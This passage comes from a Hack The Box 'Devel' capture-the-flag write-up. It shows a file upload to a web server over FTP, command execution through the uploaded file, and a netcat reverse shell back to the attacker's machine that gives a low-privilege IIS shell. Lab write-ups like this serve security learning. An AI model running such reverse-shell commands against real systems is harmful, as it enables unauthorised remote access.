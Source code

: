 ```bash
226 Transfer complete.
59392 bytes sent in 00:00 (323.85 KiB/s)
ftp> exit
221 Goodbye.
             
```
The upload was successfully. No we should visit the website and our uploaded file.

![Image](/assets/img/WriteUp/HTB/Devel/Pasted image 20230404171700.png){: width="700" height="400" }

The website does load our file.
Let's find out where we are working in on the target with the command `echo %pwd%`

![Image](/assets/img/WriteUp/HTB/Devel/Pasted image 20230404171808.png){: width="700" height="400" }

It did not show the result as I did want to have. But it did show me that the command echo was executed. This gives us the opportunity to start a reverse shell from our target to our machine.

The command we should use to start our reverse shell looks like this:
```
C:\inetpub\wwwroot\nc.exe 10.10.14.114 53 -e cmd.exe
```

Before running the command we should start our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ sudo nc -lvp 53
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53

```
The netcat listener is running.

## Initial access

Now we should enter the command and execute it in the website.
```
C:\inetpub\wwwroot\nc.exe 10.10.14.114 53 -e cmd.exe
```
Let's check the netcat listener to see if a connection has been established.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ sudo nc -lvp 53
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.129.253.47.
Ncat: Connection from 10.129.253.47:49161.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>


```
We got a reverse shell working! Based on this piece of information`Microsoft Windows [Version 6.1.7600]`, we could identify the Windows Operating System as Windows 7 build 7600. Next we should find out who we are on the system and what privileges we have.
```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

```